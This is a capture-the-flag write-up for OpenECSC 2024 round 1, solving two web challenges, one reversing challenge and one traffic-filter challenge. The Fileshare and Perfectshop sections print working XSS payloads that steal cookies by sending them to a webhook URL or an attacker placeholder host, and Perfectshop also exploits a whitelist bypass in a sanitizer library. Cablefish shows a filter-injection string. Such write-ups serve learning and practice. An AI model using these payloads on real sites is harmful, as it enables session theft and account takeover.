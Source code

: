 # OpenECSC 2024 round 1
https://github.com/ECSC2024/openECSC-2024 <br>
https://open.ecsc2024.it/

### Index
- [Web](#web)
    - [Fileshare](#chal1)
    - [Perfectshop](#chal2)
- [Reversing](#Reversing)
    - [fsvm1](#chal1)
- [Misc](#misc)
    - [Cablefish](#misc1)



# Web

## Fileshare
You can now share your files for free thanks to our new disruptive technology! <br>
Site: https://fileshare.challs.open.ecsc2024.it

### Solution

This challenge consists of a classic XSS (Cross Site Scripting) vulnerability. <br>
You are able to upload files and the goal is to get clients to execute a javascript payload, which steals their cookies. <br>
A headless rabbitmq chrome browser, containing the flag as a cookie, is used to simulate that client. You call it by sending a request to support.php.<br>

The Sanitization of the mimetype of the file uploaded is done poorly, it is possible to upload various malicious mimetypes such as application/xml, application/svg, etc. <br>
```php
// upload.php

// sanitize mimetype to not allow "h" letter
$type = $_FILES["file"]["type"];  // mime type of the file, not checked by php
// I don't like the letter 'h'
if ($type == "" || preg_match("/h/i", $type) == 1){    // empty or contains 'h'
    $type = "text/plain";
}

```

When downloading a file, the server adds the mimetype and reads the file and writes it to the output buffer using readfile(). <br>
```php
// download.php

if ($row) {
    $path = "/uploads/$id";
    header('Content-Type: '. $row['content_type']);

    // reads a file and writes it to the output buffer.
    readfile($path);
} else {
    header('Location: /');
}
```

My solution uses the application/xml mimetype to upload a xml file containing a javascript payload. This payload then sends the victims cookies to a server the attacker controll<br>
```javascript
Content-Type: application/xml

<script xmlns="http://www.w3.org/1999/xhtml"><![CDATA[
var message = document.cookie;
document.location="https://webhook.site/1425f028-434d-494f-8e2c-d308787ccebe/?c="+message;
]]></script>
```


## Perfectshop
Do you like perfect things? Check out my new online shop! <br>
Site: http://perfectshop.challs.open.ecsc2024.it

### Solution

To solve Perfectshop you need to craft a payload containing Path Traversal, XSS and using a 0day in an dependency used. <br>


The App utilizes the perfect-express-sanitizer middleware to sanitize every request for Cross Site Scripting, except requests going to the whitelisted /admin endpoint. <br>
Repository of sanitizer middleware: https://github.com/pariazar/perfect-express-sanitizer
```javascript
const sanitizer = require("perfect-express-sanitizer");
app.use(sanitizer.clean({ xss: true }, ["/admin"]));
```

The Sanitizer Middleware cointains a flaw, when checking for requests going to whitelisted endpoints. <br>
Commit fixing the 0day: https://github.com/pariazar/perfect-express-sanitizer/commit/32ff0f08c74bb4fa6224acff06ebbc3b869f16f5
```javascript
// it should be checking if the url starts with the whitelisted endpoint, not if it contains it.
if (req[k] && !whiteList.some((v) => req.url.trim().includes(v))) {
if (req[k] && !whiteList.some((v) => req.url.trim().startsWith(v))) {   // fixed version
```


It is important to include "/admin" in the URL and the body of the request, to prevent the sanitizer from cleaning the payload. <br>
First the payload uses a simple Path Traversal to access the /search endpoint, to be able to execute the reflected XSS vulnerability. <br>
Then the payload loads a script from the attackers server, which sends the cookies to the attacker. This is done to bypass the search query limit of 50 characters.<br>
#### Payload
```http
POST /report?q=/admin HTTP/1.1
id=3../../../search?q=<script%20src="http://<attackers_server>/admin"></script>&message=as/admin
```
#### Payload Script on Attackers Server
```javascript
fetch('http://<attackers_server>/${document.cookie}')
```


# Reversing

## fsvm1
I want this VM to generate a good description, but all I get is "no".

### Solution

Fsvm1 is a reversing challenge with VM-based obfuscation.<br>
Normally the goal would be to write a disassembler, which provides pseudo disassembly code of the bytecode. <br>
Luckily the virtual registers are implemented using files, which gives the possibility to monitor the filesystem for changes. When done, the flag is obtained as an ASCII encoded string of numbers.<br>

```bash
while inotifywait -e close_write -r regs/; do 
cat regs/*
done
```
```bash
regs/ CLOSE_WRITE,CLOSE reg0
1251111flag:0regs/ CLOSE_WRITE,CLOSE reg0
61flag:05210014000regs/ CLOSE_WRITE,CLOSE reg2
0121flag:052101565599521001400000000regs/ CLOSE_WRITE,CLOSE reg2
01211211flag:012111810999521015655995210014000000000000regs/ CLOSE_WRITE,CLOSE reg2
01011flag:011410197115121118109995210156559952100140000000000000000regs/ CLOSE_WRITE,CLOSE reg1
121flag:0115117112101114101971151211181099952101565599521001400000000000000000000regs/ CLOSE_WRITE,CLOSE reg2
691flag:06783671231151171121011141019711512111810999521015655995210014000000000000000000000000regs/ CLOSE_WRITE,CLOSE reg1
1111110flag:0111111210111069678367123115117112101114101971151211181099952101565599521001400000000000000000000000000000 
```

# Misc

## Cablefish
Welcome to our platform! Here you can do traffic analysis via TCP, isn't it awesome? <br>
Just specify your filter, we will sanitize it (we want to make sure no sensitive data will be leaked) and you will be given the traffic! <br>
This is a remote challenge, you can connect with: <br>
nc cablefish.challs.open.ecsc2024.it 38005 <br>

### Solution

when connecting you are able to specify a filter, the filter will be sanitized and then used to filter the traffic. <br>
the goal is to escape the sanitization to get the flag. <br>

```python
# sanitization filter:
filter = filter[:50]
sanitized_filter = f'(({filter}) and (not frame contains "flag_placeholder"))'

# payload: frame contains "flag_placeholder") or not (tcp

```



<img src="cablefish_flag.png" alt="cablefish_flag.png" width="600"/>

